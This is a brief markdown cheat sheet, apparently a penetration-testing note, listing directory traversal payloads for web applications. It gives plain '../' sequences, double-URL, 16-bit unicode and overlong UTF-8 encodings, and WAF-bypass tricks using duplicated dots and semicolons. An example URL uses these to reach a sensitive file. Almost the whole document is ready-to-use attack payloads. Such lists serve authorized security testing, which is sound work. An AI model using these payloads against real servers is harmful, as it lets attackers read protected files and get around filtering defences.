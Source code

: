 # Enum-Web-Dir-Traversal

## Basic
```
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

## Double URL encoding
```
. = %252e
/ = %252f
\ = %255c
```

## 16 Bit unicode
```
. = %u002e
/ = %u2215
\ = %u2216
```

## UTF-B
```
. = %c0%2e, %e0%40%ae, %c0ae
/ = %c0%af, %e0%80%af, %c0%2f
\ = %c0%5c, %c0%80%5c
```

## Bypass WAF with duplication
```
..././
...\.\
```

## Bypass WAF with ;
```
..;/
http://domain.tld/page.jsp?include=..;/..;/sensitive.txt 

```

